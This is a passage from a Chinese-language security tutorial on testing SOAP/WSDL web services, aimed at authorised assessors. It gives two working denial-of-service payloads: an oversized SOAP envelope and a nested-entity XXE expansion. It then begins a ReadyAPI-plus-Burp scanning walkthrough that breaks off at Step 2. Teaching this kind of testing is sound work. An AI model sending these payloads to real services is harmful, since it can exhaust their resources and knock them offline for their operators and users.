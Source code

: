针对元素个数的 DoS 攻击的示例 (也可以通过重复某个特定元素达到同样效果)：

```plain
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
    <soapenv:Header/>
        <soapenv:Body>
        <TEST>
            <BGA attribute1="BGABGABGABGABGABGABGABGABGABGABGABGABGABGABGABGA...BGABGABGABGABGABGABGABGABGABGA" attribute2="BGABGABGABGABGABGABGABGABGABGABGABGABGABGABGABGA...BGABGABGABGABGABGABGABGABGABGA" attribute3="BGABGABGABGABGABGABGABGABGABGABGABGABGABGABGABGA...BGABGABGABGABGABGABGABGABGABGA"></BGA>
        </TEST>
    </soapenv:Body>
</soapenv:Envelope>
```

当然存在 XXE 时就可以进行 XXE DoS 攻击：

```plain
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE bga [
    <!ELEMENT ANY >
    <!ENTITY bga1 "bga1">
    <!ENTITY bga2 "&bga1;&bga1;&bga1;&bga1;&bga1;&bga1;">
    <!ENTITY bga3 "&bga2;&bga2;&bga2;&bga2;&bga2;&bga2;">
    <!ENTITY bga4 "&bga3;&bga3;&bga3;&bga3;&bga3;&bga3;">
    <!ENTITY bga5 "&bga4;&bga4;&bga4;&bga4;&bga4;&bga4;">
    <!ENTITY bga6 "&bga5;&bga5;&bga5;&bga5;&bga5;&bga5;">
   ]>
<bga>&bga6;</bga>
```

## 漏洞扫描

很多人可能会说这里的接口有没有可以进行一次性扫描检测的方法呢？当然有，作为甲方安全人员或者授权的安全评估人员我们可以借助 ReadyAPI([https://www.soapui.org/](https://www.soapui.org/) ) 进行快速的安全扫描测试评估，这里对步骤进行简单介绍，更加细节的部分可以自行进行深入，工具部分不多做演示介绍

Step 1：为了进一步观察这里的测试时怎么进行的，我们第一步先设置 Burp 代理，在 File->Preferences->Proxy 中设置 Burp 代理服务器地址  
[![](assets/1706957905-a6e27f5787387f6069866a1179d34cb6.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240202094430-9bc14666-c16c-1.png)  
Step 2：新建安全测试任务，选择 WSDL 相关的 API 模块定义
